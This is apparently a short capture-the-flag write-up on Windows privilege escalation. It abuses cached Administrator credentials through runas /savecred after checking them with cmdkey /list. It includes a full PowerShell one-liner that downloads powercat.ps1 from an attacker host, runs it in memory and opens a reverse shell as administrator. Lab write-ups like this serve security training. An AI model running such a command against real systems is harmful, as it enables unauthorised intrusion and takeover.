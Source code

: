Under `C:\Users\Public\Desktop` found a .lnk file running a program in `C:\ZKTeco` using `runas.exe`. This program is being run as Administrator using the /savecred feature that is part of `runas.exe`. This means that we can use the same method to execute `runas` as Admin.

- Confirm if Admin creds are cached
```bash
cmdkey /list
```
This lists cached credentials

```powershell
runas /env /noprofile /savecred /user:ACCESS\Administrator "powershell.exe -c \"IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.7/powercat.ps1'); powercat -c 10.10.14.7 -p 443 -e cmd\""
```
![[Pasted image 20240906175325.png]]

Got a shell as `access\administrator`
